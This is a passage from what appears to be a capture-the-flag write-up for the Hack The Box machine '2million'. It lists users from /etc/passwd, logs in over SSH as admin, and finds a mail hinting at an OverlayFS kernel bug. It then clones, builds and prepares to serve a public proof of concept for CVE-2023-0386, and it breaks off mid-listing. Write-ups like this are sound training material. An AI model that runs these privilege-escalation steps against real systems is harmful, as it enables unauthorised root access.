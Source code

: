 Check which users exist:

```
www-data@2million:~/html$ cat /etc/passwd | grep sh$ 
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

Let's try to ssh as admin:

```
ssh admin@2million.htbo
```

Totally works!

Get the user flag and then let's find some privilege escalation!

# Privesc

Checking all the usual suspects, and find this one:

```
admin@2million:/var/mail$ pwd
/var/mail
admin@2million:/var/mail$ ll
total 12
drwxrwsr-x  2 root  mail  4096 Jun  2 23:20 ./
drwxr-xr-x 14 root  root  4096 Jun  6 10:22 ../
-rw-r--r--  1 admin admin  540 Jun  2 23:20 admin
admin@2million:/var/mail$ cat admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

# OverlayFS / FUSE

That sounds interesting - let's google that!

Googling "OverlayFS / FUSE exploit 2023" gets some good results, and one article names CVE-2023-0386.

I google that cve and "poc" and find an example on github, and find one!

https://github.com/veritas501/CVE-2023-0386/tree/master

I clone the repository, run make and I get a program in return. I also start a webserver to serve the mailcious binary.

```
(.venv) [niels@archbox twomillion]$ git clone https://github.com/veritas501/CVE-2023-0386.git
(.venv) [niels@archbox CVE-2023-0386]$ cd CVE-2023-0386
(.venv) [niels@archbox CVE-2023-0386]$ make gcc poc.c -o poc -static -no-pie -s -lfuse3 \
    -L ./libfuse -I ./libfuse/include
(.venv) [niels@archbox CVE-2023-0386]$ ll 
total 1396